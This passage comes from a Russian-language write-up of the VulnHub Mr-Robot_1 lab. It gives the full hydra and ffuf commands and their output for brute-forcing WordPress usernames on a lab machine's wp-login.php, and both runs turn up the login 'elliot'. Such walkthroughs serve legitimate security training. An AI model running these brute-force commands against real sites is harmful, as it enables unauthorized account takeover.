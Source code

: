 Пробую сбрутить имя пользователя с помощью полученного словаря
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ hydra -L ./fsocity_filtered.txt -p admin -t 40 192.168.56.129 -s 80 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1:F=Invalid username" 

[80][http-post-form] host: 192.168.56.129   login: Elliot   password: admin
[80][http-post-form] host: 192.168.56.129   login: elliot   password: admin
[80][http-post-form] host: 192.168.56.129   login: ELLIOT   password: admin

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-22 11:04:17
```

Hydra прошла по словарю за 11 минут...  
Просто из любопытства проведу **benchmark** с помощью `ffuf` и фильтрации по размеру ответа  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ ffuf -request ./post.txt -t 40 -request-proto http -w ./fsocity_filtered.txt -ic -c -fs 3608

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.129/wp-login.php
 :: Wordlist         : FUZZ: /home/kali/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits/fsocity_filtered.txt
 :: Header           : Referer: http://192.168.56.129/wp-login.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : Host: 192.168.56.129
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://192.168.56.129
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Cookie: s_cc=true; s_fid=79C0FCABB9686E81-21543240C5D7C7BB; s_nr=1753192766411; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
 :: Data             : log=FUZZ&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 3608
________________________________________________

elliot                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duration: 1561ms]
Elliot                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duration: 1570ms]
ELLIOT                  [Status: 200, Size: 3659, Words: 144, Lines: 59, Duration: 1622ms]
:: Progress: [11451/11451] :: Job [1/1] :: 25 req/sec :: Duration: [0:07:12] :: Errors: 5 ::
```
